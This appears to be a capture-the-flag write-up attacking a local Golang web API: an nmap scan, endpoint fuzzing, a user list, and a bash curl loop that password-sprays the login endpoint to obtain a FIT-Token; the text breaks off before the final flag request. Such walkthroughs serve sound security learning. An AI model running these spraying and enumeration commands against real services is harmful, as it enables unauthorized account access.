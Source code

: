 ## Path

The first thing we can notice is that the there is some kind of the web server on the port 8080.

```bash
$ nmap -p 8080 localhost -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 13:16 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00032s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

We can notice that it is some kind of Golang web server, and we get 404 on the visit.

If we start fuzzing dirs with dirb or wfuzz we can find `/api/` endpoint with message
```json
{"message": "I have different versions"}
```

So we need to fuzz even more to find the correct version and soon enough we can find the
```/api/v1/```.

Let's see what other endpoints there exists.
```bash
---- Scanning URL: http://localhost:8080/api/v1/ ----
+ http://localhost:8080/api/v1/list (CODE:200|SIZE:74)
+ http://localhost:8080/api/v1/login (CODE:200|SIZE:65)
+ http://localhost:8080/api/v1/users (CODE:200|SIZE:233)
```

We can see three endpoints found by the `dirb`.

Accessing the `/api/v1/users/` return us the list of the users.

```bash
$ curl -L http://localhost:8080/api/v1/users
[
    "root",
    "admin",
    "test",
    "guest",
    "info",
    "adm",
    "mysql",
    "user",
    "administrator",
    "oracle",
    "ftp",
    "pi",
    "puppet",
    "ansible",
    "ec2-user",
    "vagrant",
    "azureuser"
]
```

It is some kind of possible usernames on the API.

Accessing the `/api/v1/list/` gives us the following.

```bash
$ curl http://localhost:8080/api/v1/list
{
    "keys": [
        "user",
        "password",
        "flag"
    ]
}
```

So we can see our flag in there and if we try to access it, we get:

```bash
curl http://localhost:8080/api/v1/list/flag
{"message": "You not to provide FIT-Token header"}
```

So we need to pass FIT-Token header but how could we obtain it.

Let's take a look at the last endpoint found.

```bash
$ curl http://localhost:8080/api/v1/login
{"message": {"You need to pass username and password using JSON"}
```

Ah, so we need to pass username and password in json notation. 
Remember that we already have a list of usernames but not the password so let's use the 
_password spraying_ technique.

We can do it with bash, just prepare your users file to have just a username on each line without any extra 
characters.

```bash
$ for user in $(cat /tmp/new_users); do
for> curl -s -H "Content-Type: application/json" http://localhost:8080/api/v1/login -d "{\"username\": \"${user}\", \"password\":\"password\"}" | grep -v 'Wrong username or password' && echo "Username => ${user}"; done
{"message": "Good job, correct login"}
Username => puppet
```

So our credentials are `puppet` as a username and `password` as password.

If we now try to login with these credentials, we will obtain FIT-Token header in response.

Let's try it out.

```bash
$ curl -v -H "Content-Type: application/json" http://localhost:8080/api/v1/login -d "{\"username\": \"puppet\", \"password\":\"password\"}"
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 8080 (#0)
> POST /api/v1/login HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Type: application/json
> Content-Length: 45
>
* upload completely sent off: 45 out of 45 bytes
< HTTP/1.1 200 OK
< Content-Type: application/json; charset=UTF-8
< Fit-Token: <Here goes hashed token>
< Date: Wed, 21 Apr 2021 11:41:04 GMT
< Content-Length: 38
<
* Connection #0 to host localhost left intact
{"message": "Good job, correct login"}* Closing connection 0
```

We can see that we got our `Fit-Token` back. 

For the final step, let's pass it to the the `/api/v1/list/flag` endpoint.

